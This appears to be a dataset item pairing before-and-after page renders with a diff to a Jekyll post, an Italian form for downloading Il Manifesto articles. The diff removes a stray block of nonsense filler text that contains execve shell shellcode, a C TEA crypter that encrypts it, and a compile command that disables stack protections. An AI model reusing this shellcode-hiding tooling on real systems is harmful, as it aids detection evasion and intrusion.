

Before and after one commit to goax/goax.github.io, a Jekyll site: the page built from _posts/2018-11-06-manifesto-2-pdf.markdown, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
Update 2018-11-06-manifesto-2-pdf.markdown

````diff
--- a/_posts/2018-11-06-manifesto-2-pdf.markdown
+++ b/_posts/2018-11-06-manifesto-2-pdf.markdown
@@ -17,11 +17,13 @@
     box-sizing: border-box;
     border: 2px solid red;
     border-radius: 4px;
+    background-color: #093750;
 }
 </style>
 
 <center>
-	Inserisci l'url all'articolo de Il Manifesto che vuoi scaricare: <br><br>
+	Inserisci l'url all'articolo de Il Manifesto che vuoi scaricare: <br>
+	(Es.: https://ilmanifesto.it/politiche-incostituzionali-class-action-contro-la-casa-bianca/)<br><br>
 <form id="frm1">
   <input type="text" name="fname" value="URL COMPLETO"><br>
 </form>
@@ -44,120 +46,4 @@
 </script>
 
 
-Student **Prova**
-Github: [https://github.com/massimobedini](https://github.com/massimobedini)
-[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)
-
-## Prova 7:
-
-**Prova:**
-> *Uno*
- - *Due*
- - *Tre*
-
-Ciao a tutti,
-Blabbiti:
-*'Quote.'*
-
-
-Canic [link](http://www.tayloredge.com/reference/Mathematics/TEA-XTEA.pdf).
-
-Shellcode:
-```
-\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
-```
-
-Rpba:
-```c
-#include <stdio.h>
-#include <string.h>
-#include <stdlib.h>
-
-void encode(long *data, long *key) {
-	unsigned long y = data[0], z = data[1],
-	sum = 0, delta = 0x9e3779b9, n = 32;
-	while (n-- > 0) {
-		sum += delta;
-		y += (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
-		z += (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3];
-	}
-	data[0] = y;
-	data[1] = z;
-}
-
-void decode(long *data, long *key) {
-	unsigned long n = 32, sum, y = data[0], z = data[1],
-	delta=0x9e3779b9;
-	sum = delta << 5;
-	while (n-- > 0) {
-	     	z -= (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3];
-	     	y -= (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
-	     	sum -= delta;
-	}
-	data[0] = y;
-	data[1] = z;
-}
-
-/* Character Array Functions */
-void codestr(char *datastr, char *keystr) {
-	int i = 0, datasize;
-	long *data = (long *)datastr;
-	long *key = (long *)keystr;
-	datasize = strlen(datastr) / sizeof(long);
-	datasize = 0 ? 1 : datasize;
-	while (i < datasize) {
-		encode(data, key);
-		i += 2;
-		data = (long *)datastr + i;
-	}
-}
-
-void decodestr(char *datastr, char *keystr) {
-	int i = 0, datasize;
-	long *data = (long *)datastr;
-	long *key = (long *)keystr;
-	datasize = strlen(datastr) / sizeof(long);
-	datasize = 0 ? 1 : datasize;
-	while (i < datasize) {
-		decode(data, key);
-		i += 2;
-		data = (long *)datastr + i;
-	}
-}
-
-int main() {
-	char shellcode[] = \
-	"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; //execve-stack
-
-	int last;
-	char *str, buff[512];
-	char key[16] = "iloveshellcodess";
-
-	str = shellcode;
-
-	codestr(str, key);
-
-	printf("\Ciphered shellcode size: %d\n", strlen(str));
-	printf("\Ciphered shellcode:\n");
-
-	int j;
-	for (j=0;j<strlen(str);j++)
-	{
-		printf("\\x%02x", (unsigned char)(int)str[j]);
-	}
-
-	return 0;
-}
-```
-
-Bash:
-```bash
-# gcc -fno-stack-protector -z execstack -o tea_crypter tea_crypter.c && chmod u+x ./tea_crypter && ./tea_crypter
-Ciphered shellcode size: 25
-Ciphered shellcode:
-\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80
-```
-
-Ciao.
-
 [Massimo](https://twitter.com/massimobedini)
````
